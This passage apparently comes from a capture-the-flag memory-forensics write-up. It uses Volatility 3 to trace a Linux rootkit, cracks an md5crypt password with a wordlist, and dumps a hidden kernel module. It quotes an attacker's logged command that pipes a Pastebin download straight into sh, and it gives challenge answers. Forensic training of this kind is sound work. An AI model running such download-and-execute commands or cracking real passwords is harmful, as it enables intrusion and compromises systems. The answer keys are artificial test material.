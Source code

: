 You can crack this **md5crypt** password using **JohnTheRipper** or **Hashcat**:

::github{repo="openwall/john"}

::github{repo="hashcat/hashcat"}

along with this universal wordlist:

::github{repo="zacheller/rockyou"}

**Answer:** `jm:WATSON0`

### Question 4
> The attacker downloaded and executed code from Pastebin to install a rootkit. What is the full path of the malicious file? (/path/filename.ext)

The mentioned command:
```log startLineNumber=16 title="linux.bash.Bash"
22714  bash  2025-09-03 08:18:40.000000 UTC  wget -q -O- https://pastebin.com/raw/hPEBtinX|sh
```

In Linux, some kernel rootkits are implemented as loadable kernel modules that unlink themselves from the kernel's module list to avoid detection. So plugins like `linux.lsmod` may not show them. However `linux.hidden_modules` plugin looks for inconsistencies which are memory-resident module structures or executable sections that aren't referenced by the official list.

```bash showLineNumbers=false
python3 /path/to/volatility3/vol.py -f memdump.mem linux.hidden_modules.Hidden_modules
```

```log title="linux.hidden_modules.Hidden_modules"
Volatility 3 Framework 2.25.0

Offset	Module Name	Code Size	Taints	Load Arguments	File Output

0xffffc0aa0040	Nullincrevenge	0x4000	OOT_MODULE,UNSIGNED_MODULE		N/A

```

Find **"Nullincrevenge"** in `linux.pagecache.Files` gives us its full path and its inode address `0x9b3386454a80`.

**Anwser:** `/usr/lib/modules/5.10.0-35-amd64/kernel/lib/Nullincrevenge.ko`

### Question 5

> What is the email account of the alleged author of the malicious file? (user@example.com)

Extract the rootkit:

```bash showLineNumbers=false
python3 /path/to/volatility3/vol.py -f memdump.mem linux.pagecache.InodePages  --inode 0x9b3386454a80 --dump
```

Then runs `modinfo` on it:

![image](./assets/2.png)
